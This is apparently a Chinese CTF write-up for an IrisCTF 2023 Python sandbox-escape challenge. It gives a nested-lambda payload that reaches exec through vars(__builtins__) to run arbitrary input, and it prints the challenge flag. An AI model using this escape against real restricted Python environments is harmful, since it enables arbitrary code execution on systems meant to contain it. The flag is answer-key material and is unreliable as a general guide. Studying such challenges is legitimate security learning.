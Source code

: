 # 题目描述

obligatory unrealistic sandbox escape challenge!!!!!!! server runs python:3.11.1 docker!!!!!

# 解决方案

服务器会过滤所有常量，所有变量，只剩传递的两个参数`vars(), vars`可以利用，payload如下：

```python
lambda a, vars: (
    lambda __builtins__=None, **kw: (
        lambda exec, input, **k: exec(input())
    )(**vars(__builtins__))
)(**a)
```

发送payload即可拿到flag，为irisctf{i_made_this_challenge_so_long_ago_i_hope_there_arent_10000_with_this_idea_i_missed}，这道题需要熟悉python lambda语法，以及了解[compile函数](https://docs.python.org/3/library/functions.html?highlight=compile#compile)。

参考链接：

- https://github.com/Seraphin-/ctf/blob/master/irisctf2023/nameless.md